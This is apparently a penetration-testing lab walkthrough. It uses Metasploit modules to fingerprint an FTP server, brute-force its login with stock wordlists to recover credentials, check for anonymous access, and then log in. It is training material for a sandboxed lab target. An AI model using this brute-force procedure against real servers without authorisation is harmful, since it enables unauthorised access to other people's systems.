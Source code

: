 
## Solution

**Step 1:** Open the lab link to access the Kali GUI instance

**Step 2:** Identify the target IP address

To begin with you will need to identify the target system's IP address, this can be done by running the following command:

**Command:**

```
ifconfig
```

As shown in the following screenshot, locate the IP address associated with the **eth1** interface, the target IP address is the next IP within the subnet.

![Content Image](https://assets.ine.com/content/ptp/AlexisAhmed/VOD-4377/LAB-3862/1.png)

In this case the Kali Linux IP is **192.51.147.2** so the target IP will be **192.51.147.3**.

**Note:** Your target IP address will be different, so make sure to substitute the IP shown in the commands below with the one in your lab.

**Step 3:** FTP enumeration with Metasploit

Before we can begin, we will need to startup the Metasploit Framework console (msfconsole), this can be done by running the following command:

**Command:**

```
msfconsole
```

To begin with, we will need to identify a service version of the FTP server running on the target, this can be done by loading the following module:

**Command:**

```
use auxiliary/scanner/ftp/ftp_version
```

We will now need to configure the module options, more specifically, the target IP option, this can be done by running the following command:

**Command:**

```
set RHOSTS 192.51.147.3
```

We can now run the module by running the following command:

**Command:**

```
run
```

As shown in the following screenshot, the module reveals that the target system is running **ProFTPD 1.3.5a**.

![Content Image](https://assets.ine.com/content/ptp/AlexisAhmed/VOD-4377/LAB-3862/2.png)

We can perform a brute-force on the FTP server to identify legitimate credentials that we can use for authentication, this can be done by loading the **ftp_login** module as follows:

**Command:**

```
use auxiliary/scanner/ftp/ftp_login
```

We will now need to configure the module options, more specifically, the target IP option, this can be done by running the following command:

**Command:**

```
set RHOSTS 192.51.147.3
```

Given that we are performing a brute force attack, we will also need to configure the **USER_FILE** and **PASS_FILE** options.

**Command:**

```
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
```

**Command:**

```
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

We can now run the module by running the following command:

**Command:**

```
run
```

As shown in the following screenshot, after a couple of seconds the brute force attack identifies the credentials **sysadmin/654321**.

![Content Image](https://assets.ine.com/content/ptp/AlexisAhmed/VOD-4377/LAB-3862/3.png)

We can also check if anonymous logons are allowed on the FTP server, this can be done by loading the following command:

**Command:**

```
use auxiliary/scanner/ftp/anonymous
```

We will now need to configure the module options, more specifically, the target IP option, this can be done by running the following command:

**Command:**

```
set RHOSTS 192.51.147.3
```

We can now run the module by running the following command:

**Command:**

```
run
```

As shown in the following screenshot, the module reveals that anonymous FTP logons are not enabled on the FTP server.

![Content Image](https://assets.ine.com/content/ptp/AlexisAhmed/VOD-4377/LAB-3862/4.png)

We can now login to the FTP server with the credentials we obtained from the FTP brute force, this can be done through the use of the FTP client on Kali Linux.

**Command:**

```
ftp 192.51.147.3
```

As shown in the following screenshot, you will be prompted to provide a username and password, supply the credentials we obtained from the brute force attack.

![Content Image](https://assets.ine.com/content/ptp/AlexisAhmed/VOD-4377/LAB-3862/5.png)

As shown in the preceding screenshot, authentication is successful and we are logged in to the FTP server.

## Conclusion

In this lab, we explored the process of performing FTP enumeration with the Metasploit Framework.